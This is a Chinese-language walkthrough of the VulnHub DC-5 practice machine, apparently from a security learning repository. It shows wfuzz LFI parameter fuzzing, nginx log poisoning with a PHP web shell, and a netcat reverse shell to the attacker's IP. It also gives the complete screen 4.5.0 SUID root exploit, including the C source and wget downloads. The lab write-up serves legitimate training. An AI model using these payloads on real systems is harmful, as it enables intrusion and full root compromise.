








# DC 5

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-5,314/

## 知识点

- wfuzz参数爆破
- nginx日志投毒getshell
- suid-screen提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.142
```


## 漏洞利用

有用户交互的地方 contact.php，提交后跳转到 thankyou.php 页面



这里可能存在文件包含漏洞(footer.php)，尝试用wfuzz工具爆破参数

- LFI Payload字典：https://github.com/ffffffff0x/AboutSecurity/blob/master/Payload/LFI/Fuzz_Linux.txt

- LFI 参数字典：https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/api_param/Fuzz_LFI.txt

```bash
wfuzz -w /pentest/AboutSecurity/Dic/Web/api_param/Fuzz_LFI.txt -w /pentest/AboutSecurity/Payload/LFI/Fuzz_Linux.txt -u http://10.30.0.142/thankyou.phpFUZZFUZ2Z --hh 851
```


得到file参数,说明完整地址如下：

```
http://10.30.0.142/thankyou.php?file=footer.php
view-source:http://10.30.0.142/thankyou.php?file=/var/log/nginx/access.log
```



可以看到，根据Nginx服务的特征，我们在网站上的所有操作都将会被写入日志文件log内，可以利用这个日志文件getshell

尝试写入phpinfo文件



尝试反弹shell
```bash
<?php system($_GET['cmd']) ?>
nc -nlvp 4444
# 接着访问 http://10.30.0.142/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.30.0.81 4444 -e /bin/bash
```


可见反弹成功，接下来就是提权操作

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s 2>/dev/null
```



```bash
searchsploit -w screen 4.5.0
```

- https://www.exploit-db.com/exploits/41154

首先kali运行如下
```sh
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```bash
python -m SimpleHTTPServer 8080 # kali

# 靶机
cd /tmp
wget 10.30.0.81:8080/libhax.so;wget 10.30.0.81:8080/rootshell

# 运行poc
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

至此提权成功




## 参考链接

- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/cf4d99
- http://www.kxsy.work/2021/08/13/shen-tou-dc-5/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC5-WalkThrough.md